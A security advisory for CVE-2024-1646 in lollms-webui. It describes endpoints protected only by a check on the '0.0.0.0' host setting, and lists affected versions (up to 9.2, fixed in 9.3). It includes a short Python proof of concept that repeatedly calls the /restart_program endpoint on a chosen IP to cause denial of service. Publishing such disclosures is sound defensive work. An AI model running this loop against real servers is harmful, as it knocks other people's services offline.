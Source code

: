 ```yaml
---
description: CVE-2024-1646, HIGH, Exposed endpoints in lollms-webui leads to denial of service
title: lollms-webui exposued endpoints DoS
date_published: "2024-04-15"
last_updated: "2024-04-15"
xray_id: JFSA-2024-001028815
vul_id: CVE-2024-1646
cvss: 8.2
severity: high
discovered_by: Naveh Racovsky
type: vulnerability

---
```


## Summary

Exposed endpoints in lollms-webui leads to denial of service

## Component

[parisneo/lollms-webui](https://github.com/parisneo/lollms-webui)

## Affected versions

(,9.2], Fixed in 9.3

## Description

Multiple sensitive endpoints are not well-protected from access by outside actors. The current protection checks whether the host parameter isn't `0.0.0.0`.

```python
if lollmsElfServer.config.host=="0.0.0.0"
```

However, the application may be run exposed to a specific interface, in which case this check will be insufficient. 

## PoC

```bash
// PoC.py
import requests
from time import sleep
IP_ADDRESS = "aaa.bbb.ccc.ddd" #Change this to the address of the chosen interface
PORT = 9600

while True:
    try:
        response = requests.get(f"http://{IP_ADDRESS}:{str(PORT)}/restart_program")
        print(response.json())
    except Exception:
        pass
    sleep(1)
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[Advisory](https://huntr.com/bounties/2f769c46-aa85-4ab8-8b08-fe791313b7ba)

